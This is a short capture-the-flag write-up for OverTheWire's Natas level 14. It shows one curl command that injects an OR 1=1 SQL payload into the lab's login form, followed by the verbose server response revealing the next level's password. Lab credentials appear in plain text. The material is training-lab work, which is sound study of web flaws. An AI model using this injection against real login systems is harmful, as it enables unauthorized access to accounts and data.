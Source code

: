 so for some reason my regular one was not accepted, seems that it ate the commenting out trick, thus we just work till the format works

```
❯ curl http://natas14.natas.labs.overthewire.org/index.php\?debug\=true -u natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 -v -d "username=admin\" OR 1=1 OR username=\"admin&password=."
*   Trying 176.9.9.172...
* TCP_NODELAY set
* Connected to natas14.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas14'
> POST /index.php?debug=true HTTP/1.1
> Host: natas14.natas.labs.overthewire.org
> Authorization: Basic bmF0YXMxNDpMZzk2TTEwVGRmYVB5VkJrSmRqeW1ibGxRNUw2cWRsMQ==
> User-Agent: curl/7.58.0
> Accept: */*
> Content-Length: 52
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 52 out of 52 bytes
< HTTP/1.1 200 OK
< Date: Sat, 03 Nov 2018 17:44:24 GMT
< Server: Apache/2.4.10 (Debian)
< Vary: Accept-Encoding
< Content-Length: 1098
< Content-Type: text/html; charset=UTF-8
< 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
Executing query: SELECT * from users where username="admin" OR 1=1 OR username="admin" and password="."<br>Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas14.natas.labs.overthewire.org left intact
```
                                                                         
AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

